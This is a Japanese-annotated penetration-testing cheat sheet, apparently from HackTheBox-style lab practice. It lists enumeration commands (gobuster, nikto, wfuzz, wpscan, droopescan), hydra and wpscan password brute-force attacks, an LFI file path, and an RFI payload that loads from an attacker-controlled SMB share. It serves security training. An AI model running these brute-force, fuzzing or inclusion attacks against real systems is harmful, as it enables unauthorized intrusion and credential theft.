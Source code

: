 
### gobuster

スモール
    gobuster dir -u http://10.129.1.171/blog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

ミディアム
    gobuster dir -u http://10.129.1.185/webservices -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

演算子指定
    gobuster dir -u <url> -w <wordlist_file.txt> -x <file_extensions>

### nikto  

    nikto -Display on -host 10.11.1.71 -o 出力ファイル名

### wfuzz

LFI
    wfuzz -u 'http://10.129.1.171/blog/?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/common.txt
    wfuzz -u 'http://10.129.1.171/blog/?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/common.txt --hl 229
    wfuzz -u 'http://10.129.1.171/blog/?FUZZ=index' -w /usr/share/seclists/Discovery/Web-Content/api/actions.txt --hl 229


### hydra

- post

    hydra -l /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt -p admin 10.129.138.33 http-post-form "/api/session/authenticate:username=^USER^&password=admin:Login Failed"

### LFI

- Windows
    \windows\system32\license.rtfとか

### RFI

- smb
    =\\10.10.17.46\share\test.txt

### WordPress

- Vulnerable Plugins

    wpscan --url http://tartarsauce.htb/webservices/wp/ -e vp,vt,cb,dbe,u --plugins-detection aggressive -vv

- Popular Plugins

    wpscan --url http://tartarsauce.htb/webservices/wp/ -e p,vt,cb,dbe,u --plugins-detection aggressive -vv

- full

    wpscan --url http://tartarsauce.htb/webservices/wp/ -e ap,vt,cb,dbe,u --plugins-detection aggressive -o wpscan.log -vv

- passwordcrack
ユーザ名がとれている場合で、xmlrpcが使えるなら以下そのままで問題ない。（使えない場合`wp-login`）

httpsの場合
    wpscan --url https://brainfuck.htb/ -e u -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc --disable-tls-checks

httpの場合
    wpscan --url http://brainfuck.htb/ -e u -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc



### Drupal

バージョン情報はCHANGELOG.txtで確認できるけど、基本droopscanをまずは実行する。

    ./droopescan scan drupal -u http://10.129.139.15/
